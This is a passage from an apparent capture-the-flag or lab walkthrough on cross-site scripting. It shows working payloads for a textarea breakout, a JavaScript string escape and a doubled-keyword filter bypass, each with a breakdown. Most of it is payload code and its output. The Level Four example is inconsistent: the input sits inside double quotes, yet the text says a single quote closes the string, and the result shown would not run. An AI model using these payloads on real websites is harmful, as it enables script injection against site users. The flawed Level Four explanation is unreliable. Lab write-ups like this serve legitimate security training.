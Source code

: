**Breakdown**:
- `</textarea>` closes the current textarea element
- Script tag executes outside the textarea context

**Result**:
```html
<textarea></textarea><script>alert('THM');</script>
```

### Level Four: JavaScript Context Escape

**Scenario**: User input reflected within existing JavaScript code

**Context**:
```javascript
<script>
var name = "USER_INPUT_HERE";
</script>
```

**Solution**: Escape the JavaScript string and add new commands
```javascript
';alert('THM');//
```

**Breakdown**:
- `'` closes the current string
- `;` ends the current JavaScript statement
- `alert('THM');` executes the desired payload
- `//` comments out remaining code to prevent syntax errors

**Result**:
```javascript
<script>
var name = "';alert('THM');//";
</script>
```

### Level Five: Filter Bypass

**Scenario**: Basic keyword filtering removes dangerous words

**Problem**: The word "script" gets filtered out from payloads

**Filter Behavior**:
```
Original: <script>alert('THM');</script>
Filtered: <alert('THM');</>
```

**Solution**: Double the filtered word so removal still leaves valid payload
```javascript
<sscriptcript>alert('THM');</sscriptcript>
```

**Filter Process**:
```
Original: <sscriptcript>alert('THM');</sscriptcript>
Removed:  <s______cript>alert('THM');</s______cript>
Result:   <script>alert('THM');</script>
```
